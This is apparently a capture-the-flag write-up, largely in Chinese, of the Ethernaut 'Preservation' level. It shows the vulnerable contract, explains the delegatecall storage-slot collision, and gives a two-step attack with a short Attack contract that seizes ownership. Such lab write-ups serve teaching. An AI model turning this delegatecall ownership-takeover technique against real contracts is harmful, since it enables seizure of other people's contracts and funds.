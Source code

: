 # Preservation

> This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
>
> The goal of this level is for you to claim ownership of the instance you are given.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## 攻击思路

当前合约使用delegatecall时只会使用代理调用合约的代码逻辑，不能修改代理调用合约的变量。代理调用合约寻找变量时会按照代理调用合约变量所在的插槽寻找当前合约插槽中的变量。

## 攻击流程

首先调用Preservation合约的setFirstTime函数，函数参数为Attack合约的地址。然后再调用Preservation合约的setFirstTime函数，函数参数为：我的账户地址。

```solidity
contract Attack {
    // public library contracts 
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 

    function setTime(uint _time) public{
       owner = address(_time);
    }
}

```

As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
